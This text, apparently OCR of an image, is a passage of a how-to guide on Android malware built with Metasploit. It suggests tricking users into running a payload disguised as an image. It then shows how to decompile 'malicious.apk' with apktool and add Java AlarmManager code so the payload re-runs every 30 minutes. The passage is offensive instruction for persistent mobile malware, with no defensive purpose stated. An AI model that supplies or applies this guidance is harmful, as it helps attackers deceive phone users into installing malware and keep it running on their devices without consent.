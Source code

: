 ### Creating a Malicious Image

Creating a malicious image involves exploiting vulnerabilities in the image viewer or using steganography to hide the payload within an image. However, Metasploit does not have a direct module for creating a malicious image file for Android. You can use social engineering techniques to trick users into executing a payload disguised as an image.

### Customizing the Payload for Automatic Execution

To have a payload run automatically at intervals, you need to add functionality within the payload itself. Here are some methods for Android payloads:

#### Method 1: Scripting within the Payload

Modify the Android payload to include a script that schedules the payload execution at intervals. This requires decompiling, modifying, and recompiling the APK file.

1. **Decompile the APK:**
   ```sh
   apktool d malicious.apk
   ```

2. **Edit the Main Activity to Include a Scheduled Task:**

   Edit the `MainActivity.java` to use Android's `AlarmManager` to run the payload periodically.

   ```java
   // Add these imports at the beginning of your MainActivity.java
   import android.app.AlarmManager;
   import android.app.PendingIntent;
   import android.content.BroadcastReceiver;
   import android.content.Context;
   import android.content.Intent;
   import android.os.SystemClock;

   // Inside your MainActivity class, add the following method
   private void schedulePayload() {
       AlarmManager alarmManager = (AlarmManager) getSystemService(ALARM_SERVICE);
       Intent intent = new Intent(this, PayloadReceiver.class);
       PendingIntent pendingIntent = PendingIntent.getBroadcast(this, 0, intent, 0);

       // Schedule the payload to run every 30 minutes
       alarmManager.setRepeating(AlarmManager.ELAPSED_REALTIME_WAKEUP,
               SystemClock.elapsedRealtime() + 1800000, 1800000, pendingIntent);
   }

   // Call the schedulePayload method in onCreate
   @Override
   protected void onCreate(Bundle savedInstanceState) {
       super.onCreate(savedInstanceState);
       setContentView(R.layout.activity_main);

       schedulePayload();
   }
   ```
